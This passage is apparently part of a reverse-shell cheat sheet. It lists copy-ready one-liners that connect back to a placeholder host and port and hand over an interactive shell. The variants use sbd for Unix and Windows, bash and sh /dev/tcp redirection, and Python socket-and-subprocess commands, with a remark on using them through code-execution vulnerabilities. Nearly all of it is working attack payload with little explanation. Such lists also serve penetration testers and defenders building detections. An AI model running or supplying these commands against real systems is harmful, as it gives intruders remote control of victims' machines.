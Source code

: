 ### *nix
```
sbd -nv -e /bin/bash [HOST] [PORT]
```
```
sbd -nv -e /bin/sh [HOST] [PORT]
```

### Windows
```
sbd.exe -nv -e cmd.exe [HOST] [PORT]
```


## *nix Native
**NOTE:** if these are executed via a code execution vulnerability, the exploit must support shell syntax (ie. be executed by a shell on the target system)

### bash
```
/bin/bash -i >& /dev/tcp/[HOST]/[PORT] 0>&1
```

### sh
```
/bin/sh -i >& /dev/tcp/[HOST]/[PORT] 0>&1
```


## Python

### *nix with bash (shell runs in background and does NOT halt subsequent execution)
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[HOST]",[PORT]));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.Popen(["/bin/bash","-i"])'
```

### *nix with sh (shell runs in background and does NOT halt subsequent execution)
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[HOST]",[PORT]));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.Popen(["/bin/sh","-i"])'
```

### *nix with bash (shell runs in foreground and halts subsequent execution until shell is terminated)
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[HOST]",[PORT]));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"])'
```
